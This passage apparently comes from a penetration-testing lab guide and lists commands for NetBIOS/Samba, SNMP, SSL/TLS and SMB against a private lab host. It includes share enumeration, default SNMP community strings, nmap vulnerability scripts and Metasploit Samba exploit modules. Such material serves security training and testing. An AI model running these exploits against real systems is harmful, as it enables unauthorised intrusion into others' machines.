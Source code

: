 ### 6. NetBIOS (Port 139) - Samba Vulnerabilities
```bash
# Enumerate shares
smbclient -L 172.21.0.3 -N

# Connect to shares
smbclient //172.21.0.3/tmp -N

# Using enum4linux
enum4linux 172.21.0.3

# Metasploit Samba usermap script
use exploit/multi/samba/usermap_script
set RHOSTS 172.21.0.3
exploit
```

### 7. SNMP (Port 161) - Default Community Strings
```bash
# Enumerate with snmpwalk
snmpwalk -c public -v1 172.21.0.3

# Metasploit SNMP enumeration
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 172.21.0.3
run

# Try different community strings
snmpwalk -c private -v1 172.21.0.3
```

### 8. HTTPS (Port 443) - SSL/TLS Issues
```bash
# Test SSL vulnerabilities
nmap --script ssl-enum-ciphers -p 443 172.21.0.3
nmap --script ssl-heartbleed -p 443 172.21.0.3

# SSLyze (if available)
sslyze 172.21.0.3:443
```

### 9. SMB (Port 445) - Multiple Vulnerabilities
```bash
# SMB version scanning
nmap --script smb-protocols 172.21.0.3

# SMB vulnerabilities
nmap --script smb-vuln-* 172.21.0.3

# Metasploit SMB exploits
use exploit/linux/samba/lsa_transnames_heap
set RHOSTS 172.21.0.3
exploit
```
